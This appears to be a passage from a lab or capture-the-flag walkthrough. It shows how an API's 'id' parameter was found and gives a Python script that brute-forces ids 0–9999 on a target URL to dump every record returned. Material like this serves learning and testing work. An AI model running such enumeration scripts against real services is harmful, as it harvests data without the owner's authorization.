 ![](Images/Pasted%20image%2020240308154630.png)

we can see that the `id` parameter seems to be valid so lets check to see what the response is with a test value: 

![](Images/Pasted%20image%2020240308154723.png)

we can then use a python script to automate getting all the info that the API returns: 

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```
